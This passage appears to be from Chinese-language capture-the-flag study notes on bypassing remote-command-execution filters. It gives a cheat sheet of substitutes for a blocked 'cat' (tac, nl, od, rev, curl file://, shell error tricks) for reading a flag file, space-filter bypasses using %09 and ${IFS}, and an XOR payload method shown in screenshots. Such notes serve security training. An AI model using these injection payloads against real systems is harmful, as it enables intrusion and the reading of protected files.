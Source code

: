##### 过滤执行命令（如cat tac等）

```
more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容
sh /flag 2>%261 //报错出文件内容
curl file:///root/f/flag
strings flag
uniq -c flag
bash -v flag
rev flag
```

##### 过滤空格

```
%09（url传递）(cat%09flag.php)
cat${IFS}flag
a=fl;b=ag;cat$IFS$a$b
{cat,flag}
```



### 异或案例

异或是一种二进制的位运算，符号以 XOR 或 ^ 表示

过滤所有字符

![image-20240511213314043](D:\Infiltration\笔记\note\图片\image-20240511213314043.png)

#### 异或运算

在rce-xor.php中修改preg，过滤规则`/[a-z0-9]/i`，运行生成一个res.txt

![image-20240511213530700](D:\Infiltration\笔记\note\图片\image-20240511213530700.png)

使用rce-xor.py生成payload，使用system命令执行ipconfig

![image-20240511213820938](D:\Infiltration\笔记\note\图片\image-20240511213820938.png)

成功执行ipconfig

![image-20240511214029411](D:\Infiltration\笔记\note\图片\image-20240511214029411.png)
